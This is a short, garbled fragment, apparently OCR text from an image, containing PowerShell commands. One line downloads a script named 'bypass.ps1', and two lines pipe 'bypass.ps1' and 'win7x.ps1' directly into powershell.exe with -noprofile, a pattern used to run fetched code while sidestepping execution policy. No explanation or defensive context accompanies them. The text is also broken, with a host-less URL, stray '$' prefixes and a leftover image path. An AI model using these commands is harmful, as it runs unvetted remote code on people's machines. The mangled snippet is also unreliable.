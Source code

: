 $Invoke-webrequest http://bypass.ps1
$Get-Content .\bypass.ps1 | PowerShell.exe -noprofile



$Get-content .\win7x.ps1 | powershell.exe -noprofile -
